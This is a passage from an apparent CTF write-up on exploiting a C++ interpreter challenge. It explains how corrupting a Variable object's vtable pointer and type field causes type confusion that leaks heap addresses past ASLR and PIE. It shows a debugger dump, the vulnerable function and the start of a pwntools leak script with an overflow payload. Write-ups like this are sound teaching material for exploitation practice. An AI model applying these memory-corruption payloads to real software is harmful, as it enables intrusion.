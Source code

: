 ## Arbitrary execution primitive

Given what we just saw, its pretty easy to overwrite the `print` function pointer of a `Variable` object, then try printing it.

The hard part is what to overwrite it with, given we have ASLR and PIE enabled.

## Leaks everywhere!

Lets play around with corrupt `Variables` a bit more : as you saw from the memory dump, past the vtable we have the `TYPE` and then a `union` interpreted dynamically based on `TYPE`.

Other than this being _very much not idiomatic C++_ it also gives us a way to leak memory addresses and break free of ASLR and PIE.

Think about what happens when we corrupt a `stringVariable` object as follows:

```
$2 = {
  _vptr.Variable = 0x4242424242424242,
  type = LONG,
  value = {
    l = 102064000210880,
    s = 0x5cd3a07a17c0 "ciao"
  }
}
```

Note how we had to overwrite the vtable pointer : at this point we cant know its value due to ASLR...

But what we can do, instead of calling `print` (which would crash) is do some maths on it! We can pass the following check due to our corruption:

```
long getLongVar(const char* name) {
    Variable* v = getvarbyname(name);
    if (v->type == LONG) {
        return v->value.l;
    } else {
        std::cout << "Invalid variable " << name << ": " << v->value.s << std::endl;
        return 0;
    }
}
```

Thus by calling some identity operation like adding our corrupt var to $B=0, we get the pointer to our original `"ciao"` string:

Something like this in `pwntools`:

```python
def leaker(r, addr, content=b"ciao"):
    r.recvuntil(b">")
    r.sendline(b"log")

    new_var(r, b"A", b"0")

    r.recvuntil(b">")
    r.sendline(b"log")

    new_var(r, b"B", content)

    r.recvuntil(b">")
    #B's will go to vtable, 0s to TYPE
    r.sendline(b"A"*23 + b"B"*8 + b"\x00"*8)


```